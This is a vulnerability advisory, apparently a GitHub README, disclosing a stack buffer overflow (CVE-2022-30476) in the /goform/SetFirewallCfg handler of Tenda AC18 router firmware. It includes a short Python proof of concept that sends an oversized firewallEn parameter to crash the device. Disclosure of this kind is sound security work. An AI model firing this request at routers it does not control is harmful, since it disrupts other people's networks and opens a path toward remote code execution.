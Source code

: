 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetFirewallCfg` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetFirewallCfg`.

In function `formSetFirewallCfg` it reads user provided parameter `firewallEn` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `dest`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetFirewallCfg`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetFirewallCfg?"
url += "firewallEn=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30476)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41847)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
